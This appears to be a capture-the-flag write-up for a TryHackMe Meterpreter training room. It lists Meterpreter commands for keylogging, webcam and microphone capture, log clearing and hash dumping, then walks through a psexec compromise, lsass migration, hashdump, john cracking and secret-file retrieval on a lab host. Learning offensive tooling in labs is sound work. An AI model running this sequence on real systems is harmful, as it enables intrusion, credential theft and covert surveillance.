 # Metasploit: Meterpreter

[Metasploit: Meterpreter Room](https://tryhackme.com/room/meterpreter)

Take a deep dive into Meterpreter, and see how in-memory payloads can be used for post-exploitation.

## Meterpreter commands

Core commands:

- `background`: Backgrounds the current session
- `exit`: Terminate the Meterpreter session
- `guid`: Get the session GUID (Globally Unique Identifier)
- `help`: Displays the help menu
- `info`: Displays information about a Post module
- `irb`: Opens an interactive Ruby shell on the current session
- `load`: Loads one or more Meterpreter extensions
- `migrate`: Allows you to migrate Meterpreter to another process
- `run`: Executes a Meterpreter script or Post module
- `sessions`: Quickly switch to another session

File system commands:

- `cd`: Will change directory
- `ls`: Will list files in the current directory (dir will also work)
- `pwd`: Prints the current working directory
- `edit`: will allow you to edit a file
- `cat`: Will show the contents of a file to the screen
- `rm`: Will delete the specified file
- `search`: Will search for files
- `upload`: Will upload a file or directory
- `download`: Will download a file or directory

Networking commands:

- `arp`: Displays the host ARP (Address Resolution Protocol) cache
- `ifconfig`: Displays network interfaces available on the target system
- `netstat`: Displays the network connections
- `portfwd`: Forwards a local port to a remote service
- `route`: Allows you to view and modify the routing table

System commands:

- `clearev`: Clears the event logs
- `execute`: Executes a command
- `getpid`: Shows the current process identifier
- `getuid`: Shows the user that Meterpreter is running as
- `kill`: Terminates a process
- `pkill`: Terminates processes by name
- `ps`: Lists running processes
- `reboot`: Reboots the remote computer
- `shell`: Drops into a system command shell
- `shutdown`: Shuts down the remote computer
- `sysinfo`: Gets information about the remote system, such as OS

Others Commands (these will be listed under different menu categories in the help menu):

- `idletime`: Returns the number of seconds the remote user has been idle
- `keyscan_dump`: Dumps the keystroke buffer
- `keyscan_start`: Starts capturing keystrokes
- `keyscan_stop`: Stops capturing keystrokes
- `screenshare`: Allows you to watch the remote user's desktop in real time
- `screenshot`: Grabs a screenshot of the interactive desktop
- `record_mic`: Records audio from the default microphone for X seconds
- `webcam_chat`: Starts a video chat
- `webcam_list`: Lists webcams
- `webcam_snap`: Takes a snapshot from the specified webcam
- `webcam_stream`: Plays a video stream from the specified webcam
- `getsystem`: Attempts to elevate your privilege to that of local system
- `hashdump`: Dumps the contents of the SAM database

| Title | IP Address |
| :----: | :----: |
| Win4Meterpreter | 10.10.107.174 |

Using `msfconsole`:

```bash
db_nmap -A -vv -T4 -oN initial.nmap 10.10.107.174
```

Result: [initial.nmap](initial.nmap)

```bash
user exploit/windows/smb/psexec
hosts -R
set lhost <localhost>
set smbuser ballen
set smbpass Password1
run
```

meterpreter:

```bash
sysinfo
```

> `Computer : ACME-TEST`

> `Domain : FLASH`

```bash
background
```

`msfconsole`:

```bash
use post/windows/gather/enum_shares
set session 1
run
```

> `[*] Name: speedster`

```bash
sessions 1
```

meterpreter:

```bash
ps
```

> `756 632 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\lsass.exe`

```bash
migrate 756
hashdump
```

> `jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::`

Copy

```bash
background
```

`msfconsole`:

```bash
cat > hash
```

Paste

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

> `Trustno1 (?)`

```bash
sessions 1
```

meterpreter:

```bash
search -f secrets.txt
```

> `c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt (35 bytes)`

```bash
cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
```

> `My Twitter password is KDSvbsw3849!`

```bash
search -f realsecret.txt
```

> `c:\inetpub\wwwroot\realsecret.txt (34 bytes)`

```bash
cat "c:\inetpub\wwwroot\realsecret.txt"
```

> `The Flash is the fastest man alive`
